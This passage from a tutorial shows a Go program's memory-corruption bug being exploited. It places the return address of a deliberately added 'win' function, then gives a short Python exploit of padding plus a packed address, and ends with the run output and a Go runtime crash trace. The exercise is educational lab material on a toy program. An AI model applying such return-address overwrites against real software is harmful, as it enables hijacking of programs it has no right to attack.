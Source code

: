     It might not be completely obvious where the function starts, but given the call to win that we added to stop the
    compiler from removing the function altogether was inside an if-statement, it is reasonable that the function would
    be at the target of some conditional jump instruction (je in line <+161> here): it is at line <+178>, starting with
    a NOP instruction. Skipping the NOP, we can use line <+179> or address 0x00000000004925d3 as target.

    So let's update the exploit code to use the correct padding and the target address:

    python
    !/usr/bin/env python2

    import struct

    padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNN"
    winp = struct.pack("Q", 0x4925d3)

    print(padding + winp)


    Running the program with this input creates the following output:

    shell
    ./exploitwin.py | ./main
    win!
    unexpected fault address 0xc000072000
    fatal error: fault
    [signal SIGSEGV: segmentation violation code=0x2 addr=0xc000072000 pc=0xc000072000]

    goroutine 1 [running]:
    runtime.throw(0x4c1077, 0x5)
    /usr/lib/go/src/runtime/panic.go:1112 +0x72 fp=0xc000070fd8 sp=0xc000070fa8 pc=0x42ebd2
    runtime: unexpected return pc for runtime.sigpanic called from 0xc000072000
    stack: frame=sp:0xc000070fd8, fp:0xc000071008 stack=[0xc000070000,0xc000071000)
        000000c000070ed8:  000000c000070fbc  000000c000070f18
        000000c000070ee8:  000000000043023b <runtime.recordForPanic+299>  0000000000590565
        000000c000070ef8:  00000000004c0dd6  0000000000000001
        000000c000070f08:  0000000000000001  0000000000000000
        000000c000070f18:  000000c000070f58  0000000000430404 <runtime.gwrite+164>
        000000c000070f28:  0000000000000002  00000000004c0dd6
        000000c000070f38:  0000000000000001  0000000000000001
        000000c000070f48:  000000c000070fbc  000000000000000c
        000000c000070f58:  000000c000070fa8  0000000000430c28 <runtime.printstring+120>
        000000c000070f68:  000000000042ed97 <runtime.fatalthrow+87>  000000c000070f78
        000000c000070f78:  0000000000458580 <runtime.fatalthrow.func1+0>  000000c000000180
        000000c000070f88:  000000000042ebd2 <runtime.throw+114>  000000c000070fa8
        000000c000070f98:  000000c000070fc8  000000000042ebd2 <runtime.throw+114>
        000000c000070fa8:  000000c000070fb0  0000000000458500 <runtime.throw.func1+0>
        000000c000070fb8:  00000000004c1077  0000000000000005
        000000c000070fc8:  000000c000070ff8  00000000004429dc <runtime.sigpanic+972>
        000000c000070fd8: <00000000004c1077  0000000000000005
        000000c000070fe8:  0000000000000000  000000c000072000
        000000c000070ff8:  0000000000000000
        runtime.sigpanic()
        /usr/lib/go/src/runtime/signalunix.go:694 +0x3cc fp=0xc000071008 sp=0xc000070fd8 pc=0x4429dc



